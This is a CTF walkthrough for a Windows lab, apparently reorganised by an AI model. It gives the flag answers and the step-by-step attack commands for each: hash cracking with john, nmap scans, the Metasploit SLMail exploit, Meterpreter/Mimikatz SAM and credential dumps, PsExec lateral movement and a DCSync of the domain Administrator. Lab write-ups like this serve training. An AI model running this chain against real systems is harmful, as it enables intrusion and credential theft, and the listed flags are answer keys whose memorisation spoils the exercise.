 Here's the organized content for notes_on_ctf_3_windows.md:

```markdown
# Windows CTF Challenge: Flag Solutions and Methods

## OSINT Flag

### Flag 1: `Tanya4life`
- **Location**: GitHub - totalrekall repository
- **Vulnerability**: Exposed credentials in xampp.users
- **Method**:
  ```bash
  # Save hash to file
  echo '$apr1$A0vSKwao$GV3sgGAj53j.c3GkS4oUC0' > hash.txt
  
  # Crack with john
  john hash.txt
  ```
- **Credentials**: `trivera:Tanya4life`

## Network Enumeration Flags

### Flag 2: `4d7b349705784a518bc876bc2ed6d4f6`
- **Location**: Win10 (172.22.117.20) - HTTP Service
- **Method**:
  1. Port scan subnet:
     ```bash
     nmap -A 172.22.117.0/24
     ```
  2. Access HTTP service with credentials from Flag 1
  3. Read flag2.txt

### Flag 3: `89cb548970d44f348bb63622353ae278`
- **Location**: Win10 - FTP Service
- **Vulnerability**: Anonymous FTP access
- **Method**:
  ```bash
  ftp 172.22.117.20
  # Username: anonymous
  # Password: [blank]
  get flag3.txt
  exit
  cat flag3.txt
  ```

## Service Exploitation Flags

### Flag 4: `822e3434a10440ad9cc0861978919b49d`
- **Location**: Win10 - SLMail Service
- **Vulnerability**: SLMail Exploit
- **Method**:
  ```bash
  msfconsole
  search slmail
  use windows/pop3/seattlelab_pass
  set RHOSTS 172.22.117.20
  exploit
  cat flag4.txt
  ```

### Flag 5: `54fa8cd5c1354adc9214969d716673f5`
- **Location**: Win10 - Scheduled Tasks
- **Method**:
  ```bash
  shell
  schtasks /query
  schtasks /query /TN flag5 /FO list /v
  ```

## Credential Access Flags

### Flag 6: `Computer!`
- **Location**: Win10 - SAM Database
- **Method**:
  ```bash
  # In Meterpreter session
  load kiwi
  lsa_dump_sam
  # Crack NTLM hash for user flag6
  ```

### Flag 7: [Not provided in original text]
- **Location**: C:\Users\Public\Documents
- **Method**:
  ```bash
  # In Meterpreter session
  search -f flag7.txt
  cat C:\\Users\\Public\\Documents\\flag7.txt
  ```

## Lateral Movement Flags

### Flag 8: `ad12fc2ffc1e47`
- **Location**: Server2019
- **Vulnerability**: Cached Credentials
- **Method**:
  1. Dump cached creds on Win10:
     ```bash
     # In Meterpreter session
     load kiwi
     creds_all
     ```
  2. Crack ADMBob's hash:
     - Password: `Changeme!`
  3. Use PsExec to access Server2019:
     ```bash
     use exploit/windows/smb/psexec
     set SMBUser ADMBob
     set SMBPass Changeme!
     set RHOSTS [Server2019-IP]
     exploit
     ```
  4. List users to find flag8:
     ```cmd
     net user
     ```

### Flag 9: `f7356e02f44c4fe7bf5374ff9bcbf872`
- **Location**: Server2019 - C:\flag9.txt
- **Method**:
  ```bash
  # In Meterpreter session
  cat C:\\flag9.txt
  ```

### Flag 10: `4f0cfd309a1965906fd2ec39dd23d582`
- **Location**: Server2019 - DCSync Attack
- **Method**:
  ```bash
  # In Meterpreter session with kiwi loaded
  dcsync_ntlm Administrator
  ```

## Tools Used
- Network Scanning: `nmap`
- Password Cracking: `john`
- Service Exploitation: Metasploit
- Post-Exploitation: 
  - Meterpreter
  - Mimikatz (kiwi)
  - PsExec

## Attack Path Summary
1. OSINT to find credentials
2. Network enumeration to identify targets
3. Service exploitation (FTP, SLMail)
4. Credential dumping on Win10
5. Lateral movement to Server2019
6. Domain admin compromise via DCSync
```